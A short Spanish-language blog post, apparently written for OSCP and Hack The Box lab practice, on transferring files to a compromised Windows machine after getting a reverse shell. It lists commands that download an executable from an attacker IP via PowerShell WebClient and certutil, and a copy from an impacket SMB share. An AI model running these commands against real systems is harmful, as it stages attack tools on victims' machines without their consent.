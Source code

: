 ```yaml
---
layout: single
title: Transferir archivos despues de la explotacion
comments: true
excerpt: "En este post escribo como transferir archivos despues haber explotado una maquina y tener una shell inversa"
date: 2020-11-10
classes: wide
header:
  teaser: /assets/images/Transferir-archivos-despues-de-Explotacion-Windows/transfer-files.jpg
  teaser_home_page: true
categories:
  - Hacking
tags:
  - OSCP
  - HTB
  - Hacking
---
```


<p align="center">
<img src="/assets/images/Transferir-archivos-despues-de-Explotacion-Windows/transfer-files.jpg">
</p>

Hola a todos, hoy escribire un post de como transferir archivos a una maquina victima. El escenario pensado es que pudimos hackear una maquina victima, hemos obtenido una shell. Sin embargo por diversos motivos nesecitamos transferir archivos a dicha maquina. Asi que pongo unas tecnicas que he ido aprendiendo

# Transferir archivos despues de la explotacion

_Despues obtener una shell es nesecario transferir archivos desde la maquina atacante a la maquina victima_
aqui escribire unos metodos:

> Para esta Prueba de Concepto mi IP sera 10.10.14.99 

## Metodo 1

### Atacante

```bash
python3 -m http.server 80
```

### Victima

#### Powershell

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.99/bfill.exe', 'c:\Users\Public\Downloads\bfill.exe')"
```
#### Certutil

```bash
certutil.exe -f -urlcache -split http://10.10.14.99/bfill.exe bfill.exe
```

## Metodo 2 - SMB Server

### Atacante

```bash
impacket-smbserver NombreCarpetaCompartida rutaCarpetaCompartida
```

### Victima

```bash
copy \\10.10.14.99\\NombreCarpetaCompartida\ArchivoDentrodeCarpeta.exe
```

